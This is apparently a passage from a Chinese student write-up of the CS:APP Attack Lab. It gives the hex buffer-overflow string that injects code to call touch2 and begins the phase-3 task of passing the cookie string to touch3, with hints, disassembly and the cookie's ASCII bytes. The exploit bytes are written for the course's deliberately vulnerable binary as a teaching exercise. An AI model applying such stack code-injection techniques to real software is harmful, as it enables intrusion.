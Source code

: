 此时rsp的地址为`0x5561dc78` ，用小端表示为 78 dc 61 55

所以最终touch2.txt的答案为

```
68 ec 17 40 00 bf fa 97 
b9 59 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

验证答案正确

![image-20211029201920697](实验3：AttackLab.assets/image-20211029201920697.png)

### lever 3

> Phase 3 also involves a code injection attack, but passing a string as argument.

还需要传字符串作为参数

**任务:** 你的任务`getbuf`之后执行`touch3`而不是继续执行test。你必须要传递`cookie`字符串作为参数

一些小建议

- 你需要在利用缓冲区溢出的字符串中包含`cookie`的字符串表示形式。该字符串应该有8个十六进制数组成。注意没有前导0x
- 注意在c语言中的字符串表示会在末尾处加一个`\0`
- 您注入的代码应将寄存器％rdi设置为此字符串的地址
- 调用函数hexmatch和strncmp时，它们会将数据压入堆栈，从而覆盖存放`getbuf`使用的缓冲区的内存部分。 因此，您需要注意在哪里放置您的`Cookie`字符串

#### touch3函数

```assembly
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00 
  401908:	48 89 fe             	mov    %rdi,%rsi
  40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:	e8 36 ff ff ff       	callq  40184c <hexmatch>
```

这里的重点还是函数起始位置`0x4018fa`

调用hexmatch就是配对字符串的16进制数是否相等，把cookie的数值进行16进制转换，如下

```
5 9 b 9 9 7 f a
35 39 62 39 39 37 66 61 
```
